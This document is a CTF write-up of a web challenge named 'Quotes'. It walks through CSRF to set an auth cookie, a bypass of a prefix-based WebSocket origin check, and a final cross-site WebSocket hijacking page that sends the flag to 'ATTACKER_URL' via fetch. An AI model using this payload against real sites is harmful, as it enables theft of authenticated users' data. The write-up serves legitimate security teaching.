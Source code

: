 ## Quotes

> Feeling lost? Why don't you come and get quotes from the wise?
>
> MD5 (quotes.tar.gz) = 3ba36e72cb0ee2186745673475de8cf7
>
> * 复读机

This was a simple client-side web exploitation challenge. From the `/share` endpoint we can submit a URL for the admin bot to visit.

```python
@app.route('/share', methods=['GET','POST'])
def share():
    if request.method == "GET":
        return render_template("share.html")
    else:
        if not request.form.get('url'):
            return "yes?"
        else:
            thread_a = Bot(request.form.get('url'))
            thread_a.start()
            return "nice quote, thanks for sharing!"

```

Let's take a look at the actual functionality of the web app! The flag can be found in the `/quote` WebSockets endpoint - as long as we satisfy the following conditions:

* The WebSocket client's origin must start with `http://localhost`
* The client must have the correct `auth` cookie

```python
@sockets.route('/quote')
def echo_socket(ws):
    print('/quote', flush=True)
    while not ws.closed:
        try:
            try:
                cookie = dict(i.split('=') for i in ws.handler.headers.get('Cookie').split('; '))
            except:
                cookie = {}

            # only admin from localhost can get the GreyCat's quote
            if ws.origin.startswith("http://localhost") and cookie.get('auth') == auth_token:
                ws.send(f"{os.environ['flag']}")
            else:
                ws.send(f"{quotes[random.randint(0,len(quotes))]}")
            ws.close()
        except Exception as e:
            print('error:',e, flush=True)
```

### Setting the Auth Cookie

The correct `auth` cookie is set at the `/auth` endpoint when the request is made locally by the admin bot.

```python
# authenticate localhost only
@app.route('/auth')
def auth():
    if request.remote_addr == "127.0.0.1":
        resp = make_response("authenticated")
        # I heard httponly defend against XSS(what is that?)
        resp.set_cookie("auth", auth_token, httponly=True)
    else:
        resp = make_response("unauthenticated")
    return resp

```

It is trivial to perform a GET-based CSRF through a top-level navigation to set the authentication cookie for the victim. We subsequently "sleep" for 1 second before continuing with the rest of the exploit to ensure that the nagivation was completed and the cookie was set.

```javascript
const sleep = async (ms) => {
    return new Promise(resolve => setTimeout(resolve, ms));
}

window.open("http://localhost:7070/auth");

await sleep(1000);
```

### Bypassing the Origin Check

Although the WebSockets library used ([flask\_sockets](https://github.com/heroku-python/flask-sockets)) is pretty old, there is no vulnerability in the `ws.origin` provided - afterall, `gevent` is the one providing the necessary information in the WSGI environment.

The `ws.origin` value corresponds to that of the `Origin` request header, which is one of the [forbidden header names ](https://developer.mozilla.org/en-US/docs/Glossary/Forbidden\_header\_name)that cannot be modified progammatically by JavaScript. __ This is a special request header that comprises of only the following three parts of the _current_ webpage URL:

```
<scheme>://<hostname>:<port>
```

Unless we find a browser zero-day that allows a malicious webpage to spoof `Origin` headers (this would be quite interesting), there is no way around our exploit page's origin needing to start with `http://localhost`.

But is that sufficient validation to ensure the WebSocket connection came from a page hosted on the localhost? Nope! We could simply use a domain _starting with_ `localhost`, e.g. `localhost.zeyu2001.com`.

### Final Payload

Because there is no CSRF token being checked and because WebSockets are not restricted by the [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy), we could use "cross-site WebSocket hijacking" to obtain and exfiltrate the flag.

The following page needs to be hosted on a domain starting with `localhost` and submitted to `/share`.

```markup
<html>
    <body>
        <script>
            (async () => {

                const sleep = async (ms) => {
                    return new Promise(resolve => setTimeout(resolve, ms));
                }

                window.open("http://localhost:7070/auth");

                await sleep(1000);

                const ws = new WebSocket('ws://localhost:7070/quote');

                ws.onopen = function open() {
                    ws.send('getquote');
                };

                ws.onmessage = function incoming(data) {
                    fetch("http://ATTACKER_URL/?quote=" + data.data)
                };
            })();
        </script>
    </body>
</html>
```
